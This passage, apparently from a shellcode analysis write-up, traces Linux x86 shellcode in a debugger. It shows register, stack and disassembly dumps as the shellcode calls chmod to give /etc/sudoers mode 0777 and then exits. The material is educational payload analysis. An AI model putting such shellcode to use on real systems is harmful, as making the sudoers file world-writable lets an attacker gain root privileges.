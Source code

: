 ``` 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a048 --> 0x652f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6e4 --> 0x804a04a ("/etc/sudoers")
EIP: 0x804a057 --> 0x1ff685b
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
=> 0x804a057 <shellcode+23>: pop    ebx
   0x804a058 <shellcode+24>: push   0x1ff
   0x804a05d <shellcode+29>: pop    ecx
   0x804a05e <shellcode+30>: int    0x80
[------------------------------------stack-------------------------]
0000| 0xbffff6e4 --> 0x804a04a ("/etc/sudoers")
0004| 0xbffff6e8 --> 0x0 
0008| 0xbffff6ec --> 0x8048430 (<main+76>: mov    eax,0x0)
0012| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0016| 0xbffff6f4 --> 0x7 
0020| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
0024| 0xbffff6fc --> 0x8048461 (<__libc_csu_init+33>: lea    eax,[ebx-0xe0])
0028| 0xbffff700 --> 0xffffffff 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a057 in shellcode ()
``` 
After that, ECX is set with the permissions that we have configure earlier, 0x1ff. 
``` 
[----------------------------------registers-----------------------]
EAX: 0xf 
EBX: 0x804a04a ("/etc/sudoers")
ECX: 0x1ff 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a048 --> 0x652f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6e8 --> 0x0 
EIP: 0x804a05e --> 0x16a80cd
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a059 <shellcode+25>: inc    DWORD PTR [ecx]
   0x804a05b <shellcode+27>: add    BYTE PTR [eax],al
   0x804a05d <shellcode+29>: pop    ecx
=> 0x804a05e <shellcode+30>: int    0x80
   0x804a060 <shellcode+32>: push   0x1
   0x804a062 <shellcode+34>: pop    eax
   0x804a063 <shellcode+35>: int    0x80
   0x804a065 <shellcode+37>: add    BYTE PTR [eax],al
[------------------------------------stack-------------------------]
0000| 0xbffff6e8 --> 0x0 
0004| 0xbffff6ec --> 0x8048430 (<main+76>: mov    eax,0x0)
0008| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0012| 0xbffff6f4 --> 0x7 
0016| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
0020| 0xbffff6fc --> 0x8048461 (<__libc_csu_init+33>: lea    eax,[ebx-0xe0])
0024| 0xbffff700 --> 0xffffffff 
0028| 0xbffff704 --> 0xb7e54196 (add    ebx,0x172e5e)
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a05e in shellcode ()
``` 
On success, the returned value of the syscall will be 0 in EAX. 
``` 
[----------------------------------registers-----------------------]
```